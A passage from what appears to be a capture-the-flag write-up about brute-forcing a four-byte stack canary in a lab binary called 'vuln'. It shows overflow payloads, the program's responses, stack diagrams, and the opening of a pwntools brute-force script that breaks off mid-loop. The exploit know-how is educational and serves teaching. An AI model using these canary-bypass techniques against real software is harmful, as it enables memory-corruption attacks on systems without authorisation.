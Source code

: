 Now, suppose we pass in 65 bytes of As. This will cause one byte of our canary to get overwritten since our read buffer size is only 64 bytes, and this should trigger a stack smashing error.

```bash
$ python3 -c "print('A' * 65)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 65
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
***** Stack Smashing Detected ***** : Canary Value Corrupt!
```

```text
## Stack ##
---------
ABBB      <-- the least significant canary byte was changed to an A, and the canary value is no longer correct.
---------
AAAA.....
---------
```

Now, let's change the 65th byte to a B. This should not trigger any error as the canary value should still be correct.

```bash
$ python3 -c "print('A' * 64 + 'B')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 65
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
Ok... Now Where's the Flag?
```

```text
## Stack ##
---------
BBBB      <-- the least significant canary byte was modified, but it was changed to a B, and thus, the canary value remains correct.
---------
AAAA.....
---------
```

So, using this knowledge, we can craft our canary brute-force exploit for this program, where our goal is to determine the canary value, byte by byte. To know if we are on the right track, we'll need to see if the program throws any error. If no error is thrown for our custom payload, we can conclude that the byte at the current position is correct, since it matches the value found in the stored `canary.txt` file. This exploit should not take too much time as the canary value is only 4 bytes in length.

Using Python 3 and pwntools to create our brute-force script:

```python
# bruteforce.py

from pwn import *

elf = ELF('./vuln')
libc = elf.libc
context.log_level = 'error'

offset = b'A' * 64
canary = b''

while len(canary) < 4:
    for i in range(1, 256): # test all possible byte values (except null byte)
```